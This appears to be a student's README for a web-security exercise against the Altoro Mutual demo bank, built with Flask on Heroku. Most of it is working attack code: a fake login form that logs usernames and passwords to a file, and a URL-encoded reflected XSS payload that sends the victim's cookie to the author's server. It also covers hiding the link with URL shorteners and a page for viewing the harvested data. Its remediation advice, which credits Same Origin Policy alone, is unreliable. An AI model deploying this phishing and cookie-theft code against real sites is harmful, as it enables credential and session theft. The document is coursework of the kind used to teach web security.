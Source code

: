 # Exercise 2 solution
This exercise is realised using Python+Flask and deployed in heroku.(The links are live.)
---
## Question 1 - Reflected XSS when an user is not logged in, stealing their login credentials.
1. Look for a place, where you can conduct a reflected XSS attack against a user who is currently not logged in.
- Design an attack which fakes the Login form to attack users that are currently not logged in. Send the login information to a server of your choice and login the user normally afterwards. (3P)
    1. The user is fed with the fake login page located at :[Login Page](https://mysterious-harbor-34550.herokuapp.com/login)
    The below code is implemented for the fake login and redirection.
    ```python
    @app.route('/login')
        def login():
            form_data='''<form id="foo" method="post" action="/handle_data">
            Username : <input type="text" name='uid' value="admin">
            Password : <input type="password" name='passw' value="">
            <input type="submit" name="submit" value="Submit">
            </form>
            '''
            return form_data
    ```
    2. Once the login data is filled and user clicks on submit, it writes the credentials on a notepad and then redirects the user to Altoro Mutual.
    The below code is implemented for writing the credentials and redirection.
    ```python
    @app.route('/handle_data', methods=['POST'])
        def handle_data():
            if request.method == 'POST':
                req = request.form
                uid = req.get('uid')
                passw = req.get('passw')
                data = 'uid: '+uid+' password: ' + ' ' + strftime("%Y-%m-%d %H:%M:%S", gmtime()) + '\n'
                file = open("/tmp/cookiedata.txt","a")
                file.write(data)
                file.close()
                data={"uid":uid,"passw":passw,"btnSubmit":"Login"}
                
                requests.post('http://demo.testfire.net/doLogin',data)
            
            return redirect('http://demo.testfire.net')
    ```
    3. Viewing the stored credentials is implemented using the below code.
    ```python
        @app.route('/expose')
            def expose():
                datafile = "/tmp/cookiedata.txt"
                if not os.path.isfile( datafile ):
                    return "server contains no data :-("
                with open(datafile) as f:
                    lines = f.readlines()
                data = '<html><BODY>'
                for line in lines:
                    data = data + line + '</br>'
                data = data + '</BODY></html>'
                return data
    ```
    
- How can you hide the attack code to the victim? Implement an exemplary concealment. (1P)\
    When passing the attack code to the victim, the link can be concealed using any URL shortener, further to prevent user to easily recognise the script tags passed within an URL, we can also use URL encoder to conceal most of the script code in the URL.
## Walkthrough and links to view the first exercise.

Step 1: [Login Page](https://mysterious-harbor-34550.herokuapp.com/login)for the login page\
Step 2: [Exposed Login Credentials](https://mysterious-harbor-34550.herokuapp.com/expose) to view the stored user credentials\

/login - displays a form where user has to input login details, once logged in the site automatically redirects to demo.testfire.net
>/login will call /handle_data to store the parameters in a file and then redirect to Altoro Mutual

/expose - used to view all the collected cookie/login data from cookiedata.txt


---
## Question 2 - Reflected XSS when a user is logged in to steal the cookie
2. Look for a place, where you can conduct a reflected XSS attack against a user who is currently logged in.
- Design an attack which reads information about the user and send the information to a server of your choice. (2P)
    1. When the user is already logged in, this link has to be shared with the user, tempting the user to click on the malicious link.
    ```python
        @app.route('/loanapproval')
            def loanapproval():
                crosssite='''<!DOCTYPE html>
                            <html> 
                                <head> 
                                    <style> body { background-color:whitesmoke; } </style> 
                                    <title>Altoro Mutual</title> 
                                </head> 
                                    <body> 
                                
                                    <center> 
                                        <img src="./images/logo.gif" width="283" height="80/">
                                        <h1>You are granted loan by Altoro mutual</h1> 
                                        <p> 
                                            Your account has been granted an pre approved loan.
                                            To continue further, please <a href="http://demo.testfire.net/search.jsp?query=%3Cscript%3Evar+xsession%3D%22''' + request.url_root + '''ilikecookies%3F%22.concat%28document.cookie%29%3B+var+xhttp+%3D+new+XMLHttpRequest%28%29%3B+xhttp.open%28%22GET%22%2C+xsession%2C+true%29%3B+xhttp.send%28%29%3C%2Fscript%3E">click here.</a>
                                        </p> 
                                    </center> 
                                </body> 
                            </html>
                            '''
                return crosssite
    ```
    2. Once the user clicks on the link, a redirection is triggered to Altoro Mutual and the cookie is copied and sent back to the our malicious website as a get request to store on a notepad file, using below code.
    ```python
        @app.route('/ilikecookies')
            def ilikecookies():
                data = request.query_string.decode('unicode-escape') + ' ' + strftime("%Y-%m-%d %H:%M:%S", gmtime()) + '\n'
                file = open("/tmp/cookiedata.txt","a")
                file.write(data)
                file.close()
                return data
    ```
    3. Viewing the stored cookie is implemented using the below code.
    ```python
        @app.route('/expose')
            def expose():
                datafile = "/tmp/cookiedata.txt"
                if not os.path.isfile( datafile ):
                    return "server contains no data :-("
                with open(datafile) as f:
                    lines = f.readlines()
                data = '<html><BODY>'
                for line in lines:
                    data = data + line + '</br>'
                data = data + '</BODY></html>'
                return data
    ```
## Walkthrough and links to view the second exercise.
Step 1: [Loan is now approved!](https://mysterious-harbor-34550.herokuapp.com/loanapproval) for the login page\
Step 2: [Exposed Cookie](https://mysterious-harbor-34550.herokuapp.com/expose) to view the stored user credentials\

/loanapproval- this is the link that will be shared with as a man in the middle attack, once he clicks here /ilikecookies is called to write cookie data of the user in cookiedata.txt.

/expose - used to view all the collected cookie/login data from cookiedata.txt

---
## Question 3 - 
 3. What would be your advices for the Altoro Mutual bank in order to close the vulnerabilities or to make exploiting them impossible? (2P) 
    - The Altoro Mutual bank site is vulnerable to cross site scripting, if Same Origin Policy is implemented, then the exploits could be avoided.
    ![Same Origin Policy](./images/SOP.jpg)